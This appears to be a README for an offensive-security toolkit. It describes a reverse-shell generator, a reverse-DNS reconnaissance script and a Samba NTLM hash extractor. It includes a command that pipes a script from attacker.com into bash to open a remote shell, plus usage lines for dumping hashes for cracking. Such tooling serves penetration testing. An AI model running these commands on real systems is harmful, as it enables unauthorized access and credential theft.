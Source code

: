 #### Features:
- **Multi-language reverse shell**: Generates reverse shell commands in multiple languages (Python, Perl, Netcat, PHP, Ruby, Lua), depending on what's available on the target system.
- **Quick reverse shell setup**: The output can be curled directly into bash for quick remote access.
- **Easy customization**: Accepts local host (`lhost`) and local port (`lport`) as inputs, customizing the reverse shell to your setup.

#### Usage:
```bash
python3 resh.py <lhost> <lport> <filename>
```

```bash
# Generate a reverse shell script that connects back to 10.10.10.10 on port 4444
python3 resh.py 10.10.10.10 4444 x

# Curl the generated file and execute it on the target machine
curl -sSL http://attacker.com/x | bash
```

## [routegoesPTR.ps1](./routegoesPTR.ps1) - Reverse DNS Lookup and Network Discovery Tool

`routegoesPTR.ps1` is a PowerShell script designed to assist in network reconnaissance by performing reverse DNS lookups on selected network routes. This tool is particularly useful when you have a VPN connection to a target network and want to discover hostnames and gain insights into the systems accessible via available routes. By mapping IP addresses to hostnames, you can get a better understanding of the network infrastructure and identify potential systems for further exploration.

## Usage

```powershell
.\routegoesPTR.ps1 [-ping]
```
- `-ping` (optional): When specified, the script pings hosts before attempting reverse DNS lookups and only processes hosts that respond.


## [sammy.py](./sammy.py) - Extract NTLM Hashes from Samba's sam.ldb Database

`sammy.py` is a tool to extract NTLM hashes from Samba's `sam.ldb` database. It connects to the database, searches for user objects with `unicodePwd` attributes, and converts these to NTLM-like hashes that can be used for further analysis or cracking.

#### Features:
- Connects to Samba's `sam.ldb` database using the Samba libraries.
- Extracts `unicodePwd` attributes and converts them to NTLM hashes.
- Provides output showing the username and corresponding NTLM hash.

#### Usage:
```bash
python3 sammy.py <ldb_file>
```
